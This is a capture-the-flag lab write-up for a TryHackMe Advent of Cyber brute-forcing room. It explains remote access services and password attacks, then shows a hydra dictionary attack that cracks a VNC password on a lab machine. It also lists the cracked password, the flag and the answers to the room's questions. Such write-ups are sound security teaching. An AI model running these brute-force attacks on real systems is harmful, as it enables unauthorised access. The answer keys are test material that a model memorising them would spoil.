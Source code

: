 # Day_05 [Brute-Forcing] He knows when you're awake

+ Deployable Website: No
+ Deployable Container: Yes

Description: Elf McSkidy asked Elf Recon McRed to search for any backdoor that the Bandit Yeti APT might have installed. If any such backdoor is found, we would learn that the bad guys might be using it to access systems on Santa’s network.

## LEARNING OBJECTIVES

+ Learn about common remote access services.
+ Recognize a listening VNC port in a port scan.
+ Use a tool to find the VNC server’s password.
+ Connect to the VNC server using a VNC client.

## NOTES

1. Remote Access Services
   1. SSH - Secure Shell: It was initially used in Unix-like systems for remote login. It provides the user with a command-line interface (CLI) that can be used to execute commands.
   2. RDP - Remote Desktop Protocol: It provides a graphical user interface (GUI) to access an MS Windows system. When using Remote Desktop, the user can see their desktop and use the keyboard and mouse as if sitting at the computer.
   3. VNC - Virtual Network Computing: It provides access to a graphical interface which allows the user to view the desktop and (optionally) control the mouse and keyboard. VNC is available for any system with a graphical interface, including MS Windows, Linux, and even macOS, Android and Raspberry Pi.
2. Attacking Passwords
   1. **Shoulder Surfing**: Looking over the victim’s shoulder might reveal the pattern they use to unlock their phone or the PIN code to use the ATM. This attack requires the least technical knowledge.
   2. **Password Guessing**: Without proper cyber security awareness, some users might be inclined to use personal details, such as birth date or daughter’s name, as these are easiest to remember. Guessing the password of such users requires some knowledge of the target’s personal details; their birth year might end up as their ATM PIN code.
   3. **Dictionary Attack**: This approach expands on password guessing and attempts to include all valid words in a dictionary or a word list.
   4. **Brute Force Attack**: This attack is the most exhaustive and time-consuming, where an attacker can try all possible character combinations.

## LAUNCH THE INSTANCE

1. Start the machine
2. Let's spin up hydra to attack the password for `10.10.197.5`
   1. > hydra -P /opt/rockyou.txt vnc://10.10.197.5 -V
      1. RESPONSE: `[5900][vnc] host: 10.10.197.5   password: 1q2w3e4r`
      2. So now we know the password is `1q2w3e4r`
3. Now that we have the password let's connect to the VNC
   1. For this I will use REMMINA
      1. > remmina
      2. In here I will change it to VNC and input the IP `10.10.197.5`
      3. Input the password `1q2w3e4r`
      4. Once logged in we can see the flag on the desktop wallpaper
         1. `THM{I_SEE_YOUR_SCREEN}`

## QUESTIONS

1. Use Hydra to find the VNC password of the target with IP address MACHINE_IP. What is the password?
   1. `1q2w3e4r`
2. Using a VNC client on the AttackBox, connect to the target of IP address MACHINE_IP. What is the flag written on the target’s screen?
   1. `THM{I_SEE_YOUR_SCREEN}`
